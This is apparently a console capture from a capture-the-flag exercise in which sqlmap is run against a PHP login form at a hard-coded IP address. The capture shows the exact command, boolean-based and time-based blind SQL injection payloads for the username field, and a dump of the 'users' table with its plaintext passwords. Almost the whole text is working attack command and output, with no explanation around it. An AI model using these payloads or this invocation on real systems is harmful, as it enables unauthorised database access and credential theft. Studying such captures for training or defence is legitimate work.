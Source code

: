 ```console
root@kali:~# sqlmap --data 'username=john&password=john' -p username -u 'http://52.63.238.93/index.php' --dbms=mysql -D zeropoint -T users --dump
         _
 ___ ___| |_____ ___ ___  {1.0-dev-nongit-20150429}
|_ -| . | |     | .'| . |
|___|_  |_|_|_|_|__,|  _|
      |_|           |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and
federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 10:43:53

[10:43:53] [INFO] testing connection to the target URL
[10:43:53] [INFO] heuristics detected web page charset 'ascii'
sqlmap identified the following injection points with a total of 0 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: MySQL boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (RLIKE)
    Payload: username=john' RLIKE (SELECT (CASE WHEN (5744=5744) THEN 0x6a6f686e ELSE 0x28 END)) AND 'iSRU'='iSRU&password=john

    Type: AND/OR time-based blind
    Title: MySQL > 5.0.11 AND time-based blind (SELECT)
    Payload: username=john' AND (SELECT * FROM (SELECT(SLEEP(5)))MKmf) AND 'kDJo'='kDJo&password=john
---
[10:43:53] [INFO] testing MySQL
[10:43:53] [INFO] confirming MySQL
[10:43:53] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL >= 5.0.0
[10:43:53] [INFO] fetching columns for table 'users' in database 'zeropoint'
[10:43:53] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[10:43:53] [INFO] retrieved:
[10:43:53] [WARNING] reflective value(s) found and filtering out
2
[10:43:53] [INFO] retrieved: username
[10:43:56] [INFO] retrieved: password
[10:43:58] [INFO] fetching entries for table 'users' in database 'zeropoint'
[10:43:58] [INFO] fetching number of entries for table 'users' in database 'zeropoint'
[10:43:58] [INFO] retrieved: 2
[10:43:58] [INFO] retrieved: acsc2016
[10:44:01] [INFO] retrieved: john
[10:44:02] [INFO] retrieved: NoHackingAllowed
[10:44:07] [INFO] retrieved: admin
[10:44:09] [INFO] analyzing table dump for possible password hashes
Database: zeropoint
Table: users
[2 entries]
+----------+------------------+
| username | password         |
+----------+------------------+
| john     | acsc2016         |
| admin    | NoHackingAllowed |
+----------+------------------+

```